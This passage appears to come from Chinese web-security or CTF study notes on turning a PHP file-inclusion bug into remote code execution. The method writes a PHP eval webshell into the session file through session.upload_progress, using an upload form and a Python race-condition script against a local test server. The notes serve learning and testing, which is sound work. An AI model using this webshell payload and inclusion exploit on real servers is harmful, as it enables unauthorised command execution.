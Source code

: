 ```html
<form action="http://web.jarvisoj.com:32784/" method="POST" enctype="multipart/form-data">
        <input type="hidden" name='PHP_SESSION_UPLOAD_PROGRESS' value="123" />
        <input type="file" name="file" />
        <input type="submit" />
</form>
```

抓包后修改filename（伪造`PHP_SESSION_UPLOAD_PROGRESS`的值会失败，值中一旦出现`|`，原因不详）
 ![抓包修改filename](assets/d4ce3a3495404bfb96328c4e65a1d861.png)

##### Session文件包含（利用upload_progress）

###### 漏洞原理

当发现一个文件包含漏洞但却找不到一个可以包含的恶意文件的时候，可以利用`session.upload_progress`将恶意代码写入session文件，然后包含session文件执行恶意代码
 利用条件：
 存在文件包含漏洞
 `session_start()`或者`session.auto_start=On`
 `session.use_strict_mode=0`：此时用户可以自定义Session ID，产生的session文件名为sess_SSID
 若服务器开启了`session.upload_progress.cleanup=on`导致文件上传后session文件内容立即被清空，则需要配合条件竞争进行RCE
 session文件存放路径，可以尝试默认路径
 具有读取和写入session文件的权限

###### 攻击方式

贴一个脚本，也可以用burp抓包使用Intruder对SSID进行爆破

```python
#coding=utf-8

import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('whoami');"}
def write(session):
    while True:
        # 大文件增加被清空需要的时间，增大竞争窗口期
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://127.0.0.1:5555/test56.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://127.0.0.1:5555/test56.php?file=session/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
```